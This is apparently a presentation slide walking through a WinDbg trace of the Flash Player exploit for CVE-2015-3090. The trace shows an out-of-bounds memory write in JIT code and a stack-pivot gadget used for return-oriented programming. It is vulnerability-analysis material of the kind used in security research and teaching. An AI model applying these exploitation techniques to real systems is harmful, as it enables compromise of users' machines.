

# A real example : CVE-2015-3090
0:008> !SetBaseAddress   038f0000
0:008> !SetBpForJitCode   test/write_memory
0:008> g
BreakPoint at [test/write_memory]
eax=05072424 ebx=05039100 ecx=020bf4b0 edx=00000002 esi=05023b08 edi=05023b08
eip=05072424 esp=020bf464 ebp=020bf480 iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00040206
<Unloaded_oy.dll>+0x5072423:
05072424 55              push    ebp
0:008> p
……
0:008> p
eax=00089352 ebx=05039100 ecx=03bcbeb6 edx=0510e2c0 esi=05023b08 edi=05023b08
eip=05072553 esp=020bf428 ebp=020bf460 iopl=0         nv up ei ng nz na po cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00040283
<Unloaded_oy.dll>+0x5072552:
05072553 894c8208        mov     dword ptr [edx+eax*4+8],ecx ds:0023:05333010=00000000
0:008> bu 05072553
0:008> g
Breakpoint 4 hit
eax=0008937b ebx=05039100 ecx=03b66ea0 edx=0510e2c0 esi=05023a78 edi=04a6a020
eip=05072553 esp=020bf548 ebp=020bf580 iopl=0         nv up ei ng nz na pe cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00040287
<Unloaded_oy.dll>+0x5072552:
05072553 894c8208        mov     dword ptr [edx+eax*4+8],ecx ds:0023:053330b4=00000000
0:008> u ecx
Flash32_17_0_0_134!DllUnregisterServer+0x92fe4:
03b66ea0 94              xchg    eax,esp         // stack pivot
03b66ea1 c3              ret